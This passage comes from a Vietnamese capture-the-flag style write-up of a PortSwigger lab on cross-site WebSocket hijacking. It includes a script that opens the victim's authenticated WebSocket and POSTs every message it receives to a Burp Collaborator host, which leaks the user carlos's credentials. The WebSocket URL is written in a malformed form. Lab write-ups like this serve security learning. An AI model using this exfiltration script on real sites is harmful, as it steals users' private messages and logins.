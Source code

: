 Tuy nhiên, cookie sẽ tự được gửi khi ta bắt đầu khởi tạo WebSocket (do cookie của ta đang là `secure-only` nên cần dùng protocol `wss`). Ngoài ra WebSocket không bị áp dụng `Same Origin Policy`.

Do đó ta có thể dễ dàng viết script để gửi message đến server qua WebSocket và gửi lại message nhận được từ server về endpoint của ta

```html
<script>
    var ws = new WebSocket('wss://https://0a5800a703cbb53ec0364df0009f003a.web-security-academy.net/chat');
    ws.onopen = () => { ws.send("READY"); };
    ws.onmessage = (event) => {
        fetch('https://r3v750v03ltl01tdiqh9sx5yzp5ft4.burpcollaborator.net', { method: 'POST', mode: 'no-cors', body: event.data });
    };
</script>
```

Đọc trong Burp Collab, ta có được tài khoản của user `carlos`

![Untitled](wu_media/Untitled%2034.png)

Dùng tài khoản đó để đăng nhập và hoàn thành lab